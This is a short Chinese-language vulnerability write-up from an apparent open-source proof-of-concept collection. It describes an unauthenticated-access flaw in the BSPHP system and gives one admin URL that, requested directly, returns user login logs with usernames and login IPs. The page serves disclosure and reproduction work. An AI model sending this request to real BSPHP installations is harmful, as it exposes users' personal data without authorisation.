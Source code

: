 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.bylibrary.cn](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/BSPHP/BSPHP%E5%AD%98%E5%9C%A8%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE/)

> 白阁文库是白泽 Sec 团队维护的一个漏洞 POC 和 EXP 披露以及漏洞复现的开源项目，欢迎各位白帽子访问白阁文库并提出宝贵建议。

[](https://github.com/BaizeSec/bylibrary/blob/main/docs/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/BSPHP/BSPHP%E5%AD%98%E5%9C%A8%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE.md "编辑此页")

该处泄漏的⽤户名和用户登陆 IP

URL 格式如下：

```
http://127.0.0.1/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&
```

直接进行访问即可获得如下数据

![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/BSPHP/BSPHP%E5%AD%98%E5%9C%A8%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE/wp_editor_md_90752b3880f4de0612a22c38542748d8.jpg)

* * *

最后更新: 2021-03-24